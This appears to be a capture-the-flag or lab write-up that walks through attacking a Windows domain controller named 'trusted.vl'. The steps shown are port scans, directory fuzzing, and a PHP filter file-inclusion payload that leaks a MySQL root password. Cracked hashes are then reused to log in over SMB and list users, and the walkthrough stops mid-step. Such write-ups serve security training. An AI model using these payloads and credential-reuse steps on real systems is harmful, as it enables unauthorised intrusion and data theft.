As usual I will start by checking presence of open ports over the first thousand UDP services, I see some networking stuff but so far unsure how to use it:

```bash
└─$ nmap -sU -F 10.13.38.42                                                                                                              
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-15 14:06 +0100
Stats: 0:00:52 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 52.38% done; ETC: 14:08 (0:00:46 remaining)
Stats: 0:01:41 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 83.00% done; ETC: 14:08 (0:00:20 remaining)
Nmap scan report for 10.13.38.42
Host is up (0.036s latency).
Not shown: 91 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
88/udp    open          kerberos-sec
123/udp   open          ntp
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
500/udp   open|filtered isakmp
4500/udp  open|filtered nat-t-ike
5353/udp  open|filtered zeroconf
49186/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 136.63 seconds

```

Next, is the TCP turn showing traces of the DC here?

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
| http-title: Welcome to XAMPP
|_Requested resource was http://10.13.38.42/dashboard/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-15 13:08:48Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: trusted.vl, Site: Default-First-Site-Name)
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/8.1.6)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was https://10.13.38.42/dashboard/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:     a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1:   b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| SHA-256: 0169 7338 0c0f 1df0 0bd9 593e d8d5 efa3 706c d6df 7993 f614 1272 b805 22ac dd23
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: trusted.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3306/tcp  open  mysql         syn-ack ttl 127 MariaDB 5.5.5-10.4.24
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 31
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, Speaks41ProtocolNew, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsCompression, FoundRows, SupportsLoadDataLocal, ODBCClient, InteractiveClient, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: a-\gox/{Ao/8l8oHZl/C
|_  Auth Plugin Name: mysql_native_password
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=labdc.lab.trusted.vl
| Issuer: commonName=labdc.lab.trusted.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-02T23:06:51
| Not valid after:  2026-05-04T23:06:51
| MD5:     8840 11d4 a5dd e6c1 fc70 2af4 26c9 d736
| SHA-1:   20a1 6e76 3b2b bcd9 0a58 39bf 4cf1 f562 b58a 806d
| SHA-256: 60cc 44a0 9b0c f323 b372 00af bb82 daea 7b6f 49ff 7e74 aedd afd6 f568 4c69 4050
| -----BEGIN CERTIFICATE-----
| MIIC7DCCAdSgAwIBAgIQFS3IU4X454BJ3QMWtLM51zANBgkqhkiG9w0BAQsFADAf
| MR0wGwYDVQQDExRsYWJkYy5sYWIudHJ1c3RlZC52bDAeFw0yNTExMDIyMzA2NTFa
| Fw0yNjA1MDQyMzA2NTFaMB8xHTAbBgNVBAMTFGxhYmRjLmxhYi50cnVzdGVkLnZs
| MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAyCglysc+iv6o53jAHa7p
| 2A5yOcAlZMPSTcTDNP2uoi0TP7lmMvzAu7KUiq2A17b0524JUHQUJZsvl8g9YpEz
| 0FaFVQe3EegOUPxQc4OkK/BHEnkrnpfLnp1wGzggNH3/QEHdQdGBxrCEn9sxISZz
| XnKXO+5iuB6Kte5st+pGFsx04S3lGGXnu9g8FaEPspJ5N/NDBlENTpSOotJBSgX4
| /sKLyiO8kN9hT0rhK0Cmy5iHABSIupdHZzwl+hJrjjGiKBhgTAF6RCu/utCR4Jpy
| Jv9eqM6DUvHjgCQhkvrejRaAB2POwp+FPhlSfjbhUKdxd4l50k/I10dyqZeNDi/i
| XQIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJ
| KoZIhvcNAQELBQADggEBACopfHPWqr66BCR9RpH5qTwbKT8x8zvqoBZm28D6Q8lp
| vM8a+hUcVsul+yUOISHa5MfGjvQkDxVMi8lZ9mEG7yPvxcbgvrGnfwtvrt0w3YBq
| vkeP5w6HRh0LyZ7eXnEorXER4WWgiTXwAGoSnsAp+02rgVG37SzRpwnSAFy4HxRH
| /Nh6nysp5YXe9C5Cz/o8NYxSafmPiS3R5xUA+cvhgyYOgkdYU8EyQDxgmNxYednc
| Rcm+AvMkeQWeXxjIANfsFjQaJrChVntw5tSQUv8OsOxoEEE0dX/aja9oITiYdLjw
| YIhnbIQ+h3J1Ucm4J2i1lOoyTWBih8FIqrbzTTxgDYA=
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-15T13:09:54+00:00; +2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LAB
|   NetBIOS_Domain_Name: LAB
|   NetBIOS_Computer_Name: LABDC
|   DNS_Domain_Name: lab.trusted.vl
|   DNS_Computer_Name: labdc.lab.trusted.vl
|   DNS_Tree_Name: trusted.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-15T13:09:43+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54259/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
54260/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54263/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54267/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54288/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55360/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62580/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows 10 1703 or Windows 11 21H2 (91%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%), Windows Server 2019 (90%), Microsoft Windows 10 1909 - 2004 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/15%OT=53%CT=%CU=41945%PV=Y%DS=2%DC=T%G=N%TM=69B6AFA4%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=2%ISR=109%TI=I%CI=I%II=I%SS=S%TS=A)
SEQ(SP=FB%GCD=1%ISR=FD%TI=I%CI=I%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%T=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.415 days (since Sun Mar 15 04:12:39 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: LABDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-15T13:09:47
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10285/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19281/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 62049/udp): CLEAN (Timeout)
|   Check 4 (port 47056/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   38.60 ms 10.10.14.1
2   38.60 ms 10.13.38.42


```

# DNS

From a quick and easy check i can appure that the internal server will be on another network segment; the **172.16.20.x/24**

```bash
└─$ dig any @10.13.38.42 lab.trusted.vl

; <<>> DiG 9.20.20-1-Debian <<>> any @10.13.38.42 lab.trusted.vl
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50562
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;lab.trusted.vl.			IN	ANY

;; ANSWER SECTION:
lab.trusted.vl.		600	IN	A	172.16.20.220
lab.trusted.vl.		600	IN	A	10.13.38.42
lab.trusted.vl.		3600	IN	NS	labdc.lab.trusted.vl.
lab.trusted.vl.		3600	IN	SOA	labdc.lab.trusted.vl. hostmaster.lab.trusted.vl. 233 900 600 86400 3600
lab.trusted.vl.		600	IN	AAAA	dead:beef::7947:8160:524:9e1

;; ADDITIONAL SECTION:
labdc.lab.trusted.vl.	3600	IN	A	10.13.38.42
labdc.lab.trusted.vl.	3600	IN	A	172.16.20.220
labdc.lab.trusted.vl.	3600	IN	AAAA	dead:beef::7947:8160:524:9e1

;; Query time: 36 msec
;; SERVER: 10.13.38.42#53(10.13.38.42) (TCP)
;; WHEN: Sun Mar 15 14:16:13 CET 2026
;; MSG SIZE  rcvd: 230


```

# HTTP/s

Now it is clear I need to check that HTTP server right?



Now a quick web directories fuzz shows traces of a dev site?

```bash
[14:18:18] 200 -   50KB - /dashboard/javascripts/modernizr.js
[14:18:18] 200 -   14KB - /dashboard/docs/
[14:18:18] 200 -  199B  - /dashboard/docs/use-php-fcgi.pdfmarks
[14:18:18] 200 -  220B  - /dashboard/docs/change-mysql-temp-dir.pdfmarks
[14:18:18] 301 -  332B  - /dev  ->  http://10.13.38.42/dev/
[14:18:18] 200 -  205B  - /dashboard/docs/use-different-php-version.pdfmarks
[14:18:18] 200 -    2KB - /dev/
[14:18:18] 200 -    7KB - /dashboard/docs/reset-mysql-password.html
[14:18:18] 200 -    2KB - /dev/index.html?view=index.html
[14:18:18] 200 -    9KB - /dashboard/d
```



But also traces of a php webshell?



And seems like the shell works as expected, but I am not sure it is a leftover from another user or legit:



Checking that dev site I can see another php file?

```bash
Target: http://10.13.38.42/

[14:23:33] Starting: dev/
[14:23:33] 403 -  300B  - /dev/%C0%AE%C0%AE%C0%AF
[14:23:33] 403 -  300B  - /dev/%3f/
[14:23:33] 403 -  300B  - /dev/%ff
[14:23:34] 403 -  300B  - /dev/.ht_wsr.txt
[14:23:34] 403 -  300B  - /dev/.htaccess.sample
[14:23:34] 403 -  300B  - /dev/.htaccess.bak1
[14:23:34] 403 -  300B  - /dev/.htaccess.save
[14:23:34] 403 -  300B  - /dev/.htaccess.orig
[14:23:34] 403 -  300B  - /dev/.htaccess_extra
[14:23:34] 403 -  300B  - /dev/.htaccess_sc
[14:23:34] 403 -  300B  - /dev/.htaccessOLD2
[14:23:34] 403 -  300B  - /dev/.htaccessBAK
[14:23:34] 403 -  300B  - /dev/.htaccess_orig
[14:23:34] 403 -  300B  - /dev/.htaccessOLD
[14:23:34] 403 -  300B  - /dev/.html
[14:23:34] 403 -  300B  - /dev/.htm
[14:23:34] 403 -  300B  - /dev/.htpasswd_test
[14:23:34] 403 -  300B  - /dev/.htpasswds
[14:23:34] 403 -  300B  - /dev/.httr-oauth
[14:23:37] 200 -    1KB - /dev/about.html
[14:23:46] 200 -    2KB - /dev/contact.html
[14:23:47] 301 -  336B  - /dev/css  ->  http://10.13.38.42/dev/css/
[14:23:47] 200 -  987B  - /dev/css/
[14:23:47] 200 -  987B  - /dev/css/?C=M;O=A
[14:23:47] 200 -  987B  - /dev/css/?C=D;O=A
[14:23:47] 200 -   22B  - /dev/db.php
[14:23:47] 200 -   11KB - /dev/css/style.css
[14:23:47] 200 -  987B  - /dev/css/?C=S;O=A
[14:23:47] 200 -  987B  - /dev/css/?C=S;O=D
[14:23:47] 200 -  987B  - /dev/css/?C=N;O=A
[14:23:47] 200 -  987B  - /dev/css/?C=N;O=D
[14:23:47] 200 -  987B  - /dev/css/?C=D;O=D
[14:23:47] 200 -  987B  - /dev/css/?C=M;O=D
[14:23:50] 200 -    7KB - /dev/images/
[14:23:50] 301 -  339B  - /dev/images  ->  http://10.13.38.42/dev/images/
[14:23:51] 200 -    7KB - /dev/images/?C=N;O=D
[14:23:51] 200 -    7KB - /dev/images/?C=S;O=A
[14:23:51] 200 -    7KB - /dev/images/?C=D;O=A
[14:23:51] 403 -  300B  - /dev/index.php::$DATA
[14:23:51] 200 -    7KB - /dev/images/?C=D;O=D
[14:23:51] 200 -    7KB - /dev/images/?C=N;O=A
[14:23:51] 200 -    7KB - /dev/images/?C=M;O=A
[14:23:51] 200 -    7KB - /dev/images/?C=M;O=D
[14:23:51] 200 -    7KB - /dev/images/?C=S;O=D
[14:24:05] 403 -  300B  - /dev/Trace.axd::$DATA
[14:24:07] 403 -  300B  - /dev/web.config::$DATA

Task Completed

```

Now that db can be seen via LFI via that "*view*" parameter:





Ok, not working, but since it is PHP can I use filters to read it's content?

```html
└─# curl http://10.13.38.42/dev/index.html?view=php://filter/convert.base64-encode/resource=db.php

<!DOCTYPE HTML>
<!-- Website template by freewebsitetemplates.com -->
<html>
<head>
    <meta charset="UTF-8">
    <title>Law Firm</title>
    <link rel="stylesheet" href="css/style.css" type="text/css">
</head>
<body>
    <div id="header">
        <div class="clearfix">
            <div class="logo">
                <a href="index.html?view=index.html"></a>
            </div>
            <ul class="navigation">
                <li class="active">
                    <a href="index.html?view=index.html">Home</a>
                </li>
                <li>
                    <a href="index.html?view=about.html">About</a>
                </li>
                </li>
                <li>
                    <a href="index.html?view=contact.html">Contact</a>
                </li>
            </ul>
        </div>
    </div>
<p>PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=</p></body>
</html>                                                                                                                                                         

```

And now I have my first connection to the MYSQL server.

```php
─# echo "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=" |base64 -d
<?php 
$servername = "localhost";
$username = "root";
$password = "SuperSecureMySQLPassw0rd1337.";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
?>   
```

# MYSQL

Now with these credentials it should be pretty easy to connect to the DB right? And I have some creds already:  


These looks like plain MD5 password hashes showing the account for Robert?  


And indeed it works to the lab DC:

```bash
# netexec smb 10.13.38.42 -u rsmith -p IHateEric2                                                           
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
                                                                                                                                                         
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# netexec smb 10.13.38.42 -u rsmith -p IHateEric2 --shares
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
SMB         10.13.38.42     445    LABDC            [*] Enumerated shares
SMB         10.13.38.42     445    LABDC            Share           Permissions     Remark
SMB         10.13.38.42     445    LABDC            -----           -----------     ------
SMB         10.13.38.42     445    LABDC            ADMIN$                          Remote Admin
SMB         10.13.38.42     445    LABDC            C$                              Default share
SMB         10.13.38.42     445    LABDC            IPC$            READ            Remote IPC
SMB         10.13.38.42     445    LABDC            NETLOGON        READ            Logon server share 
SMB         10.13.38.42     445    LABDC            SYSVOL          READ            Logon server share 
                                                                                                                                                         
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# netexec smb 10.13.38.42 -u rsmith -p IHateEric2 --users 
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
SMB         10.13.38.42     445    LABDC            -Username-                    -Last PW Set-       -BadPW- -Description-                              
SMB         10.13.38.42     445    LABDC            Administrator                 2025-05-15 04:34:32 0       Built-in account for administering the computer/domain
SMB         10.13.38.42     445    LABDC            Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.13.38.42     445    LABDC            krbtgt                        2022-09-14 18:43:59 0       Key Distribution Center Service Account 
SMB         10.13.38.42     445    LABDC            rsmith                        2022-09-14 18:56:07 0        
SMB         10.13.38.42     445    LABDC            ewalters                      2022-09-18 21:01:41 0        
SMB         10.13.38.42     445    LABDC            cpowers                       2022-09-14 18:57:50 0        
SMB         10.13.38.42     445    LABDC            sa                            2026-03-15 13:37:02 0        
SMB         10.13.38.42     445    LABDC            [*] Enumerated 7 local users: LAB
                                              
```

Now here it is still possible to read the files locally on the server:  
